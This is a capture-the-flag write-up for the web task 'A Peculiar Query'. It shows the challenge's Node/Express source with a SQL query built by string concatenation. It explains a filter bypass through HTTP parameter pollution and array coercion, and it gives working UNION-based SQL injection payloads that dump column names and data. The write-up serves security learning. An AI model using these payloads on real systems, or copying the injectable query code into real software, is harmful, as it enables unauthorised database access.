 # **A Peculiar Query (180pts) (73 Solves)**

![TASK](https://imgur.com/A6EHPkW.png)

I really liked this web task , we are given this web page that have a search functionality 

![TASK](https://imgur.com/gRutDcV.png)

And we can read the source code 

```javascript

const express = require("express");
const rateLimit = require("express-rate-limit");
const app = express();
const { Pool, Client } = require("pg");
const port = process.env.PORT || 9090;
const path = require("path");

const client = new Client({
	user: process.env.DBUSER,
	host: process.env.DBHOST,
	database: process.env.DBNAME,
	password: process.env.DBPASS,
	port: process.env.DBPORT
});

async function query(q) {
	const ret = await client.query(`SELECT name FROM Criminals WHERE name ILIKE '${q}%';`);
	return ret;
}

app.set("view engine", "ejs");

app.use(express.static("public"));

app.get("/src", (req, res) => {
	res.sendFile(path.join(__dirname, "index.js"));
});

app.get("/", async (req, res) => {
	if (req.query.q) {
		try {
			let q = req.query.q;
			// no more table dropping for you
			let censored = false;
			for (let i = 0; i < q.length; i ++) {
				if (censored || "'-\".".split``.some(v => v == q[i])) {
					censored = true;
					q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
				}
			}
			q = q.substring(0, 80);
			const result = await query(q);
			res.render("home", {results: result.rows, err: ""});
		} catch (err) {
			console.log(err);
			res.status(500);
			res.render("home", {results: [], err: "aight wtf stop breaking things"});
		}
	} else {
		res.render("home", {results: [], err: ""});
	}
});

app.listen(port, function() {
	client.connect();
	console.log("App listening on port " + port);
});

```

## Overview ##

It's pretty obvious that we have an sql injection here ( we are concatenating the user input )
> 	const ret = await client.query(`SELECT name FROM Criminals WHERE name ILIKE '${q}%';`);

But as we can see some filters are here :'( these characters are filtered : [',-,",.] , after some tries i have figured that it will be impossible to bypass 
them so i started looking to some JS tricks.
As we can see the filter function is looping over our input and checks if there are some prohibited characters and then it will replace 
them with "*" , For example if we type 
> hello"or 1=1 -- -

Our input will be changed to :
> hello************

```javascript
let q = req.query.q;
let censored = false;
for (let i = 0; i < q.length; i ++) {
	if (censored || "'-\".".split``.some(v => v == q[i])) {
			censored = true;
			q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
			}
}
```			

And finally it's using substring function to limit our input's length to 80 characters

```javascript
q = q.substring(0, 80);
const result = await query(q);
res.render("home", {results: result.rows, err: ""});
```
Hmmm everything seems okay nah ? but it's a ctf web task we have to find some vulnerabilities ! let's pass to how i did to solve it now, enough boring things

## Exploitation ##

The first thing i thinked about was http parameter pollution in express (read about it **[HERE](https://github.com/expressjs/express/issues/1824)** if you want ) ,briefly when we enter a get parameter multiple times express 
has a weird interpretation , it will process this parameter as an array for example here, if we pass this in the query :
> ?q=hello&q=allo&q=fword

**req.query.q** will be parsed as an array **["hello","allo","fword"]** , so if we go further when we will be iterating of **q** variable we will be comparing each array field with the filters 
for example, if we pass this query :
>q="or 1=1 -- -&q=fword

we will firstly compare **"or 1=1 -- -** and then the second field **fword** with these filtered chars **[',-,",.]** , they are not equal ! , Youupi we can get our flag now as we passed the check .

Unfortunately , it's not that easy ,have you forgot the substring function ? an array has not a built in substring function so when we reach the substring part this will raise an error so we won't execute the sql query :/
Javascript weird behaviour will save us this time ! if we do **[]+[]** the result is a string , the sum of two arrays is a string so if we enter a **"** in one query parameter
we will enter this part 

```javascript
censored = true;
q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
```
and arrays have a built in slice function so the result of **[]+"*"+[]** will be a string , we can now enter our payload with **q='** in the end to ensure that our array will be a string when it reaches the substring part
For example :
>q='or 1=1 -- -&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q='

will let us pass !

**FILTERS BYPASSED SUCCESSFULLY**

To test the number of q parameters and debug the app , i changed a little bit the source code and hosted the web app locally , you can find the modified source code **[HERE](https://github.com/kahla-sec/CTF-Writeups/blob/master/%C3%A5ngstromCTF2k20/A%20Peculiar%20Query/app.js)** if you want to test :D

![TASK](https://imgur.com/upRUoxR.png)


The next part is pretty classic , a simple sql injection , we will first dump the columns name (we know the table name from the source code)
> q=%27union%20SELECT%20column_name%20FROM%20information_schema.columns%20--%20-&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=%27

![TASK](https://imgur.com/XAVrsrR.png)


and finally we find a column named **crime** so our final payload will be :
>HOST/?q=%27union%20SELECT%20crime%20FROM%20criminals%20--%20-&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=%27

![TASK](https://imgur.com/7KWe6dF.png)

And Congratulations ! I want to thank the organizers for this great CTF and fun tasks , i have really enjoyed participating

